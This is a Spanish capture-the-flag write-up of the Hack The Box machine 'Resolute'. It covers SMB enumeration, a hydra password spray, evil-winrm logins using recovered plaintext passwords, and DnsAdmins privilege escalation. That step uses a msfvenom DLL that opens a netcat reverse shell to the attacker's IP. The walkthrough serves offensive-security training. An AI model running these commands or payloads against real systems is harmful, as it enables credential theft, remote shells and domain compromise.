

# Resolute

**OS**: Windows \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen
- Enumeración SMB
- BruteForce SMB
- DnsAdmins

## Nmap Scan

`nmap -sC -sV -p- 10.10.10.169`

```
Nmap scan report for 10.10.10.169
Host is up (0.33s latency).
Not shown: 65512 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-07 20:46:56Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49910/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/7%Time=5DEC0DE6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m57s, deviation: 4h37m09s, median: 7m56s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2019-12-07T12:47:53-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-07T20:47:54
|_  start_date: 2019-12-07T20:15:33

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec  7 14:42:08 2019 -- 1 IP address (1 host up) scanned in 1742.14 seconds
```

## Enumeración

Enumeramos el servicio **smb** que corre en los puertos **135, 139 y 445** con la herramienta llamada **enum4linux**.

`enum4linux -a 10.10.10.169`


Se visualizan unos cuantos usuarios y un password que utilizaremos para hacer fuerza bruta al smb y saber a que usuario pertenece el password utilizando **hydra**.

##### userlist.txt
```
Administrator
DefaultAccount
krbtgt
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

`hydra -L userlist.txt -p "Welcome123!" 10.10.10.169 smb`


Obtenemos un shell con el uso de **evil-winrm**.

`evil-winrm -i 10.10.10.169 -u melanie -p "Welcome123!"`



## Escalada de Privilegios (User)

Enumerando los directorios nos encontramos con un archivo interesante en el directorio **C:\PSTranscripts\20191203** llamado **PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt**.

- `dir -Force C:\`
- `dir -Force C:\PSTranscripts`
- `dir -Force C:\PSTranscripts\20191203`


Podemos ver el password del usuario **ryan**.

`type C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`


Obtenemos un shell con el uso de evil-winrm.

`evil-winrm -i 10.10.10.169 -u ryan -p "Serv3r4Admin4cc123!" -s resources/`


## Escalada de Privilegios (Administrator)

Es posible visualizar los grupos a los cuales pertenece el usuario **ryan** y uno muy particular es **MEGABANK\DnsAdmins**.


Investigando un poco sobre ese grupo llegamos a este [articulo](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) que nos ayudara a escalar privilegios.

Subimos **nc.exe** al servidor con ayuda de evil-winrm.

`upload resources/nc.exe`


Creamos nuestra **.dll** maliciosa.

`msfvenom -p windows/x64/exec cmd='C:\Users\ryan\Documents\nc.exe 10.10.14.147 1234 -e cmd.exe' -f dll > addDA.dll`


Levantamos nuestro servidor smb localmente donde estará nuestra **dll**.

`sudo python smbserver.py -comment 'Dllexploit' DLL /home/marty/htb/Box/Windows/Resolute/resources -smb2support`


Configuramos el servicio **dns** con **dnscmd.exe**.

`cmd /c dnscmd.exe 10.10.10.169 /config /serverlevelplugindll \\10.10.14.147\DLL\addDA.dll`


Ponemos a la escucha nuestro netcat.

`rlwrap nc -lvnp 1234`

Detenemos e iniciamos el servicio **dns** con **sc.exe**.

- `cmd /c sc.exe \\10.10.10.169 stop dns`
- `cmd /c sc.exe \\10.10.10.169 start dns`


Obtenemos reverse shell.


## Referencias
https://github.com/vanhauser-thc/thc-hydra \
https://github.com/Hackplayers/evil-winrm \
https://github.com/SecureAuthCorp/impacket \
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise